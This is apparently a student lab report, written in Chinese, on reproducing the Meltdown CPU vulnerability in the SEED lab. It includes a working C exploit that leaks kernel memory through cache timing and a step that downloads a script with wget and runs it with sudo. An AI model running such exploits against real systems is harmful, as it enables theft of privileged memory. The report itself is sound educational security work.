

# lab4 Meltdown Attack Report

## 参考资料

本次实验完成过程中主要参考了雪城大学SEED项目“Meltdown Attack Lab”实验的讲义和源代码。实验主页：[Meltdown Attack Lab](http://www.cis.syr.edu/~wedu/seed/Labs_16.04/System/Meltdown_Attack/)

## Meltdown 漏洞简介

Meltdown 是由 CPU 硬件设计失误导致的系统漏洞，攻击者可以通过这一漏洞实现内存的越权访问，在用户态得到内核态内存信息。

CPU 的缓存结构和乱序执行设计是造成这一漏洞的关键所在。其中，缓存是 CPU 与主存间的小容量高速存储器，CPU 访问数据时，首先会查看所需数据是否在缓存中，如果在就直接从缓存提取数据；如果不在，再去访问主存。访存操作中数据会同时发送给 CPU 和缓存。由于时间和空间局部性，系统很有可能会在短时间内再次访问同一位置或其相邻位置的数据，这时系统就可以直接从缓存得到所需数据，节省访存的时间，提高性能。而乱序执行也是当代 CPU 设计的一个重要方法，cpu在执行访存、分支等操作时有一定的等待开销。为了避免这些开销，程序会在等待时运行一些预测接下来会执行的指令。若前序等待的操作结果是预测的指令不会执行，cpu再清除等待时执行所有指令的结果，从应该执行的指令重新开始。这种设计在预测成功时可以节省大量的等待时间，从而提高性能。

缓存结构和乱序执行设计本身都没有问题。但乱序执行中“清除执行结果”这一步要考虑诸多问题，一不小心就可能留下隐患。而 Meltdown 漏洞，正是由于 CPU 在“清除执行结果”这一步没有清除预测指令对缓存的影响而导致的。具体来说，cpu在每次访存操作后都会检查访存是否合法。但在检查的这段时间中 CPU 会运行接下来的程序。当 CPU 发现访存操作非法时，会撤回之前的访存操作及其之后执行的所有指令。但这一过程中，后续指令对缓存的影响却被保留了下来。这样一来，攻击者就可能通过缓存的相关信息，在用户态推测出内核态内存的信息。

## 实验环境

本次实验在运行 Ubuntu 16.10 desktop 的 Intel Core i5-7200U CPU 平台上完成。  
系统镜像来自[Old Ubuntu Releases](http://old-releases.ubuntu.com/releases/)。

首先检测平台是否受 Meltdown 影响。使用[Spectre Meltdown Checker](https://github.com/speed47/spectre-meltdown-checker)工具来进行检测。运行下列命令：

```bash
wget https://meltdown.ovh -O spectre-meltdown-checker.sh
chmod +x spectre-meltdown-checker.sh
sudo ./spectre-meltdown-checker.sh
```

输出结果的一部分如图：  
  
显示本实验环境受 Meltdown 影响。

## 攻击设计

本实验将通过漏洞原理，编写一个用户态程序，获取内核态程序中的一些信息。在一次真实的攻击中，攻击者首先需要确认想要获取的内核数据的物理地址。本次实验中为了简化实现，通过编写一个记录内核数据并将数据地址写在内核缓冲区的内核模块，然后安装内核模块的方法，构造出我们要窃取的内核数据，同时获得数据地址。

攻击的基本思路是：将想要获取的内核数据以字节为单位，作为访存地址的一部分，使得特定的块被装入缓存；然后通过测量各块中元素访问时间的方法来判断缓存中的内容，从而得到内核数据。

本次攻击的具体实现分为以下几个步骤：

1. 测量访存时间：得到实验环境下cpu访问缓存和内存的用时备用
2. 编写内核模块：编写记录数据并将数据地址写在内核缓冲区的内核模块，作为被攻击的对象
3. 编写攻击程序
4. 测试攻击效果

## 1. 测量访存时间

在测量程序中，我们需要构造出若干不属于同一块的变量，并将其中的一部分装入缓存，而另外一部分不装入。然后分别测量两者的访问时间。经查询，推测实验环境 CPU 的缓存块大小为 64B。根据这一推测，一个 char 型数组中相隔 64 及以上个元素的两个元素应不在一个缓存块划分内。实验程序中定义了一个大小为 10×4096 的unsigned char型数组，以其中的第 i×4096（i=0,1,……，9）个元素为不同块划分中的 10 个元素。首先，将所有元素所在的块从缓冲中清除，然后访问其中的两个元素，这两个元素所在的块被装入缓存。然后分别测量访问这10个元素所用的时间（以时钟周期为单位）。为避免波动对实验的影响，将上述过程重复一百次，访问缓存和内存的测量时间分别累加取均值，得到最终结果。测量访存时间所用的代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <emmintrin.h>
#include <x86intrin.h>

int main(){
    int temp = 0;
    unsigned char *addr;
    unsigned char array[10 * 4096];
    unsigned long int basetime;             // time before cache / memory access
    int ite;                                // iterator
    unsigned long int catime, mtime;        // cache access time / memory access time

    memset(array, 0, sizeof(array));

    for(ite = 0; ite < 100; ite++){         // iterate for 100 times to increase reliablility of result
        for(int i = 0; i < 10; ++ i) 
            _mm_clflush(&array[i * 4096]);  // flush relevant cache blocks

        array[4 * 4096] = ite;
        array[9 * 4096] = ite;              // two blocks should be cached

        for(int i = 0;i < 10;++ i){         // measure time of cache / memory access
            addr = &array[i * 4096];
            basetime = __rdtscp(&temp);
            temp = *addr;
            if(i == 4 || i == 9)
                catime += __rdtscp(&temp) - basetime;
            else
                mtime += __rdtscp(&temp) - basetime;
        }
    }

    printf("cache access mean: %d\n", (int)(catime / 2 / ite));
    printf("memory access mean: %d\n", (int)(mtime / 8 / ite));
    return 0;
}
```

几次典型的测量结果如下所示：  


可以看到访问缓存和主存的时间差还是很明显的。对数据进行分析后，我决定将访存时间是否小于250个时钟周期作为判断缓存是否命中的标志。

## 2. 编写内核模块

接下来编写内核模块存放被攻击的内核态数据，并将数据起始地址存入内核缓冲区。这部分涉及内核编程的知识，并且与攻击本身关系不大，这里使用 SEED 实验“Meltdown Attack Lab”中提供的内核模块，代码如下：

```c
// this module is from SEED lab 'Meltdown Attack Lab'
// lab homepage: http://www.cis.syr.edu/~wedu/seed/Labs_16.04/System/Meltdown_Attack/

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/vmalloc.h>
#include <linux/version.h>
#include <linux/proc_fs.h>
#include <linux/seq_file.h>
#include <linux/uaccess.h>

static char secret[11] = "PB16061070";
static struct proc_dir_entry *secret_entry;
static char* secret_buffer;

static int test_proc_open(struct inode *inode, struct file *file)
{
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4,0,0)
   return single_open(file, NULL, PDE(inode)->data);
#else
   return single_open(file, NULL, PDE_DATA(inode));
#endif
}

static ssize_t read_proc(struct file *filp, char *buffer, 
                         size_t length, loff_t *offset)
{
   memcpy(secret_buffer, &secret, 8);              
   return 8;
}

static const struct file_operations test_proc_fops =
{
   .owner = THIS_MODULE,
   .open = test_proc_open,
   .read = read_proc,
   .llseek = seq_lseek,
   .release = single_release,
};

static __init int test_proc_init(void)
{
   // write message in kernel message buffer
   printk("secret data address:%p\n", &secret);      

   secret_buffer = (char*)vmalloc(8);

   // create data entry in /proc
   secret_entry = proc_create_data("secret_data", 
                  0444, NULL, &test_proc_fops, NULL);
   if (secret_entry) return 0;

   return -ENOMEM;
}

static __exit void test_proc_cleanup(void)
{
   remove_proc_entry("secret_data", NULL);
}

module_init(test_proc_init);
module_exit(test_proc_cleanup);
```

这段程序需要在编译后作为内核模块被安装，主要做了两件事：一个是将定义好的静态字符串 `secret`（即被攻击数据）的首地址写入内核缓冲区；而另一件则是创建了一个名叫`secret_data`的文件，当这个文件被读时，`secret`就会因被访问而调入缓存。而这个文件就是一个`/proc`目录下的文件，用户态程序可以对其进行读操作。用这种方法，就可以在攻击时先行将数据调入缓存，提高攻击的成功率，其原因会在下一节解释。

内核使用同样来自SEED实验“Meltdown Attack Lab”中提供的 makefile 文件编译后使用`insmod`指令安装。（这里注意，在安装时可能会遇到错误信息“insmod error required key not available”，这是由于系统开启了 UEFI secure boot，不允许安装没有 UEFI secure key 的模块。在BIOS设置中将 UEFI secure boot 关闭即可。）然后运行指令

```bash
dmesg | grep 'secret data address'
```

就会显示secret字符串的物理地址，这一地址会被用到攻击代码中。

## 3. 编写攻击程序

首先解释一下攻击的基本原理：

```c
   kernel_data = *kernel_data_addr;  
   array[kernel_data * 4096] = 1;   
```

第一行的`kernel_data_addr`指向一个内核态地址，而第一条语句是读取其中的数据。如果这一条语句程序出现在一个用户态程序中，就是非法的。系统会在检测到非法访存时抛出异常。但实际执行时，由于检测异常需要一定时间，在等待异常结果的过程中，程序会继续执行下面的语句，直到确认异常后，才会将之后执行语句的结果都丢弃。但后续语句对缓存的影响被保留了下来。第二条语句中以内核数据`kernel_data`作为地址访问数组元素，这会导致对应的块被装入缓存。如果能够排除先前缓存中的内容带来的干扰，就可以通过判断缓存中有数组的那一块来判断内核数据的值。由于访存操作和异常判断操作是同时开始的，访存时间越短，留给后序语句执行的时间也就越长，越可能使后序语句对缓存造成影响。因此，在攻击前要预先将内核数据调入缓存，以降低访存时间，提高成功率。

完整的攻击程序中需要处理一些问题，下面逐个解释：（本模块完成过程中参考了SEED实验的实现）

首先是如何处理异常。默认的异常处理程序处理内存访问异常后会直接终止程序的执行，这样一来就不能通过进行后续的缓存检测操作了。所以我们需要在程序中修改异常处理程序。使用`signal`函数可以修改默认的异常处理函数，将新的处理函数定义为遇到异常后直接执行后序代码段，就避免了进程被终止。为了实现这一效果，需要使用两个函数`sigsetjmp`和`siglongjmp`。第一个函数将程序当前状态信息储存在一个缓冲区（jbuf）中，然后继续执行，正常情况下返回值为0；而第二个函数读取缓冲区变量，然后使程序跳转到前一函数执行后的返回语句继续执行，但这个函数会给第一个函数与先前不同的返回值（由其第二个参数指定），以实现不同的执行分支。

其次，要避免缓存中已有的块对结果的影响，一方面，在每次预期将某个块装入缓存前，需要清空缓存中所有与待装入块相关的块；另一方面，为数组中的每一个用于判断的变量设置一个偏移量（OFFSET，在本程序中为2048）。这样可以保证各元素两两距离相同，位于不同块，同时也可避免头个元素由于被装入了其他块而影响实验的结果。

最后，为了提高实验的成功率，还需要一点小技巧，即下面这段代码：

```c
asm volatile(
    ".rept 400;"            
    "add $0x141, %%eax;"
    ".endr;"                    

    :
    :
    : "eax"
); //magic
```

这段代码会生成一段汇编程序，重复向`%eax`寄存器计算400次加法。Meltdown 论文中称这一段代码会占用 CPU 中按的 alu 单元，以增长访存异常判断的时间，提高成功率。实际测试中，在引发异常的语句之前添加这条语句，确实大幅提高了内核数据获取的成功率。

完成的攻击代码如下：

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

#define CACHE_HIT_TIME (250)
#define OFFSET 2048

static sigjmp_buf jbuf;

static void stop_handle()
{
   siglongjmp(jbuf, 1);
}

int main(){

    signal(SIGSEGV, stop_handle);
    // SIGSEGV is set when an invaild memory access is detected
    // change the exception handler so it won't terminate the process

    unsigned char array[256 * 4096];

    int length;
    long long address;
    printf("input length of secret message: ");
    scanf("%d", &length); 
    printf("input starting address of secret message\n");
    printf("(in 64-bit hex): ");
    scanf("%llx", &address); 

    char message[length + 1];
    message[length] = '\0';
    int fp;
    int sig;
    char data;
    int temp = 0;
    unsigned char *addr;
    unsigned long int basetime;
    unsigned long int mtime;
    int max;
    int bytec;

    int counter[256];

    for(bytec = 0; bytec < length; bytec ++){ // length bytes in total need to be read

        if((fp = open("/proc/secret_data", O_RDONLY)) < 0)
            return -1;
        
        memset(counter, 0, sizeof(counter));

        // clear cache
        for(int i = 0; i < 256; i ++) array[i * 4096 + OFFSET] = 1;
        for(int i = 0; i < 256; i ++) _mm_clflush(&array[i * 4096 + OFFSET]);

        for(int i = 0; i < 500; i ++){ // for every byte, try 500 times to increase possibility of success
            if((sig = pread(fp, NULL, 0, 0)) < 0) // put secret data in cache
                return -1;
             
            // clear cache
            for(int j = 0; j < 256; j ++) _mm_clflush(&array[j * 4096 + OFFSET]);

            if(sigsetjmp(jbuf, 1) == 0){
                asm volatile(
                    ".rept 400;"            
                    "add $0x141, %%eax;"
                    ".endr;"                    
                
                    :
                    :
                    : "eax"
                ); //magic

                data = *(char *)(address + bytec); // exception!
                array[data * 4096 + OFFSET] = 1;
            }

            for(int i = 0;i < 256;++ i){        // measure access time
                addr = &array[i * 4096 + OFFSET];
                basetime = __rdtscp(&temp);
                temp = *addr;
                mtime = __rdtscp(&temp) - basetime;
                if(mtime < CACHE_HIT_TIME)
                    counter[i] ++;              // counter tracks cache hit times
            }

        }

        max = 0;
        for(int i = 1; i < 256; i ++){          // find value with biggest counter
            if(counter[i] > counter[max])
                max = i;
        }

        message[bytec] = max;

    }

    printf("secret message: %s\n", message);

    return 0;

}
```

## 4. 测试攻击效果

未在攻击代码前添加干扰汇编代码时，失败的一次攻击：


在添加干扰汇编代码后，成功的一次攻击：

